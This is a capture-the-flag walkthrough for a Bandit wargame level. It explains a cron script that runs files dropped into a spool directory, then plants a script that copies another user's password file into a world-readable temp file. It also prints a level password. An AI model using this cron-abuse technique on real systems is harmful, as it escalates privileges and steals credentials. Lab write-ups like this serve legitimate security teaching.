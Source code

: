 Level password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

Same first step as the last 2 levels. But the bandit24 crontab script is different:

```sh
cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

```sh
for i in * .*;
```

This loops over each file within the current directory. `*` matches regular files and directories, `.*` matches hidden files and hidden directories.

```sh
if [ "$i" != "." -a "$i" != ".." ];
```

This skips over files that's named `.` or `..`, which are important directories (special entries).

```sh
owner="$(stat --format "%U" ./$i)"
```

This gets the owner of the file to be executed name.

```sh
stat --format "%U" ./$i
```

`stat` displays the file status and important information about files, `--format "%U"` allows outputting the specified format instead of the default, which outputs the file owner's username.

```sh
if [ "${owner}" = "bandit23" ]; then
	timeout -s 9 60 ./$i
fi
```

This checks whether the owner of the file is `bandit23`. If it is then it executes it. But it will timeout after 60 seconds. When it timeout, it sends a signal `9` to the process. The 9th signal is the `kill` signal (use `kill -l` to list the signals. Signal `9` is the `KILL` signal).

```sh
rm -f ./$i
```

This force delete the current file being processed.

What we can extract from this script is that this crontab executes any files in the `/var/spool/bandit24/foo/` and delete it. Specifically, for files that is owned by user *bandit23* (aka us), it would run the executable for 60 seconds then kill it. This means the script would run with the permissions of user *bandit24*. So we could create our own script and to read the password of bandit24 and write it into a file that we could access:

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/temp_dir/password.txt
```

Before we could do anything, we need to modify the permission so that the crontab could access the directory that houses the password file, the password file itself, and the permission of the script itself:

```sh
chmod o+rx script.sh
chmod o+rwx /tmp/temp_dir # x so that the cronjob can access the directory
chmod o+rw password.txt
```

Then we copy the script to the `/var/spool/bandit24/foo/` directory and wait for it to execute:

```sh
cp script.sh /var/spool/bandit24/foo/
```